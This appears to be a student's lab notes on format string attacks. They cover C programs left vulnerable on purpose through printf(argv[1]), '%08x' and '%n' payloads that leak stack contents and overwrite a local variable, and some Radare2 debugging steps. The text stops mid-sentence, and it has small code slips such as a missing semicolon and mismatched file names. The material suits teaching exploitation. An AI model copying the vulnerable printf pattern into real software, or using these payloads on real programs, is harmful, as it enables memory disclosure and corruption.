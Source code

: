 # EHD Practical 15 - Format String Attack

###### tags: #EHD 

## Table of Contents
```toc
```

## Looking at Stack Contents Through Format String Attacks
**On Win10 VM**
1. Create the following C program called `formatstr.c`
```c
#include <stdio.h>
int main(int argc, char *argv[]) {
	printf(argv[1])
	return 0;
}
```

2. Compile the program
```
gcc -o formatstr1 formatstr1.c
```

3. Run the program with the argument `hello`
```
./formatstr1 hello
```

4. Run the program with the argument `hello%s`
```
./formatstr1 hello%s
```

5. Run the program with the argument `hello%08x`
```
./formatstr1 hello%08x
```

6. The data that appears after the string `hello` comes from the top of the stack
7. To see more of the stack, run the program with more format parameters
```
./formatstr1 %08x.%08x.%08x.%08x
```

8. To see even more content from the stack, use a Perl or Python script to generate the format parameters
```
./formatstr1 $(perl -e 'print "%08x." x 40')
./formatstr1 $(python2.7 -c 'print("%08x" * 40)')
./formatstr1 $(python3.6 -c 'print("%08x" * 40)')
```

## Format Parameter %n
> The format parameter %n will write the number of characters that have been written by the function so far to the specified variable address

**On Win10 VM**
1. Create the following C program `formatstr2.c`
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	return 0;
}
```

2. Compile and run the program without parameters. Count should have the value 5
3. Edit the program to add the following two lines:
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n",&count);
	printf("Count :%d\n", count);
	return 0;
}
```

4. Compile and run the program without parameters. The variable count should have the values 5 and 11
5. Edit the program to remove `&count` from the third line
```c
int main() {
	int count;
	printf("12345%n\n", &count);
	printf("Count: %d\n", count);
	printf("12345 67890%n\n"); // remove &count
	printf("Count :%d\n", count);
	return 0;
}
```

6. Run the program without parameters. The program will attempt to write the number 11 into the address at the top of the stack. This may cause the program to crash

## Using Format String Vulnerabilities to Change the Values of Local Variables
1. Create the following C program `formatstr3.c`
```c
#include <stdio.h>

int functionA(char *buffer, char *inputstring) {
  printf("address of buffer %x\n",buffer);
  printf("buffer %s\n", buffer);
  printf(inputstring);
  printf("\naddress of buffer %x\n",buffer);
  printf("buffer %s\n", buffer);
  return 0;
}

int main(int argc, char *argv[]) {
  char buffer[10] = "Goodbye";
  functionA(buffer, argv[1]);
  return 0;
}
```

2. Compile and run the program with the argument `Hello`
```
gcc -o formatstr3 formatstr3.c
./formatstr3 Hello
```

3. You may get output like the following:
```
address of buffer ffffcc26
buffer Goodbye
Hello
address of buffer ffffcc26
buffer Goodbye
```

4. Run the program with the arguments `%x.%x.%x.%x.%x.%x.%x` to get the top 7 words from the stack
```
./formatstr3 %x.%x.%x.%x.%x.%x.%x
```

5. You may get the following output:
```
address of buffer ffffcc26
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.ffffcc26.8036a4689
address of buffer ffffcc26
buffer Goodbye
```

6. Change the number of `%x` so that the address of the buffer is the last word to be displayed
7. Change the last `%x` to `%n` so that instead of `%x` which will display the current word in the stack, `%n` will write something to the address contained in the current word of the stack
```
./formatstr3 %x.%x.%x.%x.%x.%n
```
8. You may get the following output:
```
address of buffer bfc8a902
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.
address of buffer bfc8a902
buffer
```

9. We have changed the variable buffer to an empty string
10. To change the buffer to an exclamation mark, find its ASCII value 
11. Count the number of characters that is printed out by the program line vulnerable to the format string attack `printf(inputstring)`
```
# 29 characters are printed in this line
address of buffer bfc8a902
buffer Goodbye
0.ffffc934.0.ffffcc30.401126.
address of buffer bfc8a902
buffer 
```

12. Run the program with the same number of `%x` but add four more characters so that the line printed out will be 33 characters long
13. The last `%n` will write the number of characters printed out to the address contained in the current word of the stack
```
./formatstr3 %x.%x.%x.%x.%x.1234%n
```

## Using Radare2 to Debug Programs
**On Kali VM**
1. Examine the C program called `doublevalue.c`
```c
#include <stdio.h>
int doublevalue(int num) {
  int c;
  c = num * 2;
  return(c);
}

void main() {
  int a, b;
  a = 4;
  printf("The value of a is %d\n", a);
  b = doublevalue(a);
  printf("The value of b is %d\n", b);
}
```

2. Compile the program and run the program to test it
```
gcc doublevalue doublevalue.c
./doublevalue
```

3. Use Radare2 to debug the program
```
r2 -d doublevalue
```

4. Run the following command to analyse the program and auto name functions
```
aaa
```

5. In Radare2, use the `?` key to display help and list of possible commands
6. `p` key is used to print values - run `p?` to print values
7. Use `s` to move to the main function
8. Type `pdf` to print disassembled functions

![](https://i.imgur.com/tS62Wmk.png)

9. Type `db main` to put a breakpoint at the start of the function
10. Type `db <address_function>`  to put a breakpoint at the address of the `printf` function
11. Put a third breakpoint `db sym.doublevalue` at the start of the `doublevalue` function
12. Type `dc` to run the program. It will stop at the breakpoints
13. Type `pdf` to display the assembly code again. Address of the instruction of where the program has paused is highlighted and the ad